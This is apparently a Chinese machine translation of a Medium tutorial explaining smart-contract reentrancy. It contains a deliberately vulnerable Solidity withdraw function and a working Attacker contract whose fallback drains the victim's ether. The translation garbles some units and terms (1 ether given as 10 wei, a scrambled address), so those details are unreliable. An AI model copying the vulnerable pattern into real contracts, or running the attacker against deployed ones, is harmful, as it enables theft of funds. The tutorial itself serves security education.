

# 让我们重新分析一下——耗费数百万美元的智能合约漏洞。

> 原文：<https://medium.com/coinmonks/lets-break-down-re-entrancy-the-smart-contract-vulnerability-that-costed-millions-794870313e27?source=collection_archive---------15----------------------->


智能合约漏洞可不是闹着玩的。与普通的计算机程序不同，它们需要真金白银。是啊，没错！我经常将智能合同部署与火箭发射联系在一起，火箭发射需要在部署前进行密集的故障测试，一旦发射，就无法收回！

许多漏洞会困扰智能合约——重入就是其中之一。我将使用 Solidity 代码(这种语言对你们中的一些人来说可能是新的，因此我也添加了一个解释)来解释攻击，以避免向你们抛出抽象的概念。不客气🙈。

# 什么是再入攻击？

智能合约的一个令人惊讶的特性是，它们可以通过调用其他合约的功能来相互“交谈”。他们也可以“存储”和发送*乙醚*到不同的外部地址。**这些操作需要合同提交** [**外部调用**](https://consensys.github.io/smart-contract-best-practices/development-recommendations/general/external-calls/) **。**

这些传出的调用可能被攻击者劫持，攻击者可以通过某个其他契约中的[回退函数](https://www.tutorialspoint.com/solidity/solidity_fallback_function.htm)来强制契约做“额外的工作”。

让我们来分解一下—

1.  攻击者可以开发一个包含回退函数中一些邪恶代码行的契约。
2.  每当一个契约发送*以太*到这个契约的地址，它调用回退函数。
3.  并且当恶意代码运行时，它通常执行“调用”或易受攻击的契约的功能。

“重入”这个名字来源于这样一个想法——外部恶意代码迫使易受攻击的契约重复执行一个函数，或者导致代码执行的路径“重入”同一个函数。

我将通过一个实际的例子来帮助您理解安全威胁。

# 让我们见证一次再入攻击！

## 受害者合同

受害合同允许用户存取*乙醚*如下图所示。

```
pragma solidity ^0.8.4;contract Victim { mapping(address => uint256) balances; function deposit() public payable { balances[msg.sender] += msg.value; } function withdraw(uint _amount) public { require(_amount <= balances[msg.sender],"Insufficient balance"); (bool success,) = msg.sender.call{value:_amount}(""); require(success, "Transfer failed."); balances[msg.sender] -= _amount; } function contractBalance() public view returns(uint256){ return address(this).balance; }}
```

如果你知道上面发生了什么，太好了！😄请随意跳到*攻击者*部分。

## **映射(地址= > uint256)**

该映射跟踪用户的平衡。

```
mapping(address => uint256) balances;
```

例如，

{ " 0 xef 43299 ed 551 e 1 DFB c 7 febddc 36 ea 78 EB 7936 b 73 ":300000000000000，" 0 xe G1 a6 e 16 e 1837 F2 DFD 26 cc 0 f 72d 5b 8 fbace 295 ":100000000000000，… }

*注:乙醚以卫表示(1 乙醚= 10 卫)。*

## 存款()

存款功能会增加汇款人的余额。

```
function deposit() public payable { balances[msg.sender] += msg.value;}
```

*注意:存款功能被声明为 payable，这意味着它可以接受乙醚。*

## 提取(_ 金额)

取款功能首先确定发送者是否有足够的余额来提取所需的*乙醚* (_amount)。

```
require(_amount <= balances[msg.sender],"Insufficient balance");
```

现在，合同发送*乙醚* (_amount)到呼叫者的地址——一个外线电话！这是袭击发生的地方😈。

```
(bool success,) = msg.sender.call{value:_amount}("");
```

如果前面的事务失败，下面的 require 语句将抛出一个错误。如果没有，用户余额将相应减少。

```
require(success, "Transfer failed.");balances[msg.sender] -= _amount;
```

# 袭击者

攻击者契约将通过定义一个回退函数来利用受害者契约，使受害者做一些“额外的工作”，如下所示。

```
// SPDX-License-Identifier: MITpragma solidity ^0.8.4;import "./Victim.sol";contract Attacker { Victim public victim; constructor(address _victim) { victim = Victim(_victim); } function attack() public payable{ require(msg.value >= 1 ether); victim.deposit{value:1 ether}(); victim.withdraw(1 ether); } function contractBalance() public view returns(uint256){ return address(this).balance; } fallback() external payable { if(address(victim).balance > msg.value){ victim.withdraw(1 ether);
        } }}
```

我会在解释攻击的同时解释代码。开始了。

## 袭击

攻击者会用一些大于或等于 1 的*醚*来调用攻击函数。让我们假设许多用户已经将*乙醚*存入受害者合同，并且它的当前余额是 5 *乙醚*。

```
1.1 function attack() public payable {1.2require(msg.value >= 1 ether);1.3     victim.deposit{value:1 ether}();1.4     victim.withdraw(1 ether);1.5 }
```

后退是当契约接收到不专用于任何函数的事务时调用的特殊函数，包含普通以太网和无数据。

```
2.1 fallback() external payable {2.2     if(address(victim).balance > msg.value){2.3          victim.withdraw(1 ether);2.4     }2.5 }
```

接下来会发生什么(重要的是每一点对你都有意义。每当你感到失落的时候就去查代码)—

1.  *行 1.3:*a*ttack 函数*用 1 乙醚的 msg.value 和大量气体调用受害者契约的 *deposit 函数*。
2.  *第 1.4 行:*攻击函数调用受害者契约的*撤销函数*，参数为 1 *以太*，受害者将发送 1 *以太*给攻击者(*记住受害者契约中的外部调用！*)。
3.  *第 2.1 行:*对恶意合同的付款将调用*回退功能*。
4.  *第 2.2 行:*受害者契约余额为 4 *乙醚*(将 1 乙醚发送给攻击者后)，所以*如果*条件通过。
5.  *第 2.3 行:**回退函数*再次调用撤销函数，将受害者契约‘重入’(如上图)。
6.  在第二次通话中，呼叫者的余额仍然是 1 *乙醚*(我们还没有移动到外部通话线路的前面！)，所以 require 语句通过。
7.  *第 2.1–2.3 行:*受害者再次发送 1 *乙醚*给攻击者，回退函数再次调用撤销函数…

8.步骤 3–7 重复**直到** *地址(受害者)。天平> 1。*

当访问者契约中只剩下 1 个*乙醚*时，回退函数中的 *if* 语句将失败。

**结果:攻击者在一次交易中窃取了访问者契约中除 1 个*乙醚*之外的所有乙醚。**

如果这些让你困惑，我建议你[在 remix IDE](https://remix.ethereum.org/) 上运行代码，亲自观察攻击。



A EtherScan record of internal transactions of the attack on the victim contract.

那就是可重入！✅

在另一篇博客中，我将解释对抗攻击的预防技术。

我希望这篇博客对你有所帮助。如果有任何不正确的信息，不要犹豫发表评论。

谢谢你的时间🙌。

> 加入 Coinmonks [电报频道](https://t.me/coincodecap)和 [Youtube 频道](https://www.youtube.com/c/coinmonks/videos)了解加密交易和投资

# 另外，阅读

*   [最佳以太坊钱包](https://coincodecap.com/best-ethereum-wallets) | [电报上的加密货币机器人](https://coincodecap.com/telegram-crypto-bots)
*   [交易杠杆代币的最佳交易所](https://coincodecap.com/leveraged-token-exchanges) | [购买 Floki](https://coincodecap.com/buy-floki-inu-token)
*   [3 commas vs . Pionex vs . crypto hopper](https://coincodecap.com/3commas-vs-pionex-vs-cryptohopper)|[Bingbon Review](https://coincodecap.com/bingbon-review)
*   [加密复制交易平台](/coinmonks/top-10-crypto-copy-trading-platforms-for-beginners-d0c37c7d698c) | [如何在 WazirX](/coinmonks/buy-bitcoin-on-wazirx-2d12b7989af1) 上购买比特币
*   [硬币评论](https://coincodecap.com/coinloan-review)|[Crypto.com 评论](/coinmonks/crypto-com-review-f143dca1f74c)
*   [如何在加拿大购买加密货币？](https://coincodecap.com/how-to-buy-cryptocurrency-in-canada)